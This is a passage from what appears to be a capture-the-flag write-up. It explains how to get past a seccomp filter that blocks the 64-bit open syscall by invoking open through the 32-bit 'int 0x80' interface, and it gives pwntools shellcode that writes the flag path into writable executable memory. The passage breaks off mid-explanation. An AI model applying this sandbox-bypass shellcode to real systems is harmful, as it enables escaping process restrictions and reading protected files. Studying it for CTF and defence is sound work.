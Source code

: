 So for the file name pointer, we will need it to be maximum 32 bit. And the ideal address is the address we've changed permission to rwx because it just takes 3 bytes. So let's move the path of flag to that address with this script:

```python
shellcode = asm('''
	mov rbp, 0x404500
	mov rdx, 8386599043768215599
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 8371742425456455526
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 29816
	mov [rbp], rdx
	sub rbp, 0x10
	''') 
```

We can attach gdb to check if our path is correct or not:

![check-path.png](images/check-path.png)

So the register rbp contains the correct path of flag. Now we will want to execute `int 0x80` to open the file. While we don't have syscall `open` allowed on 64 bit, but it just the problem if we use `syscall` (for 64 bit) because the rax value of `open` when we use `syscall` is 2 which is not allowed:

![open-x86-64.png](images/open-x86-64.png)

But if we execute syscall `open` with `int 0x80` (for 32 bit), the rax value will be 5:
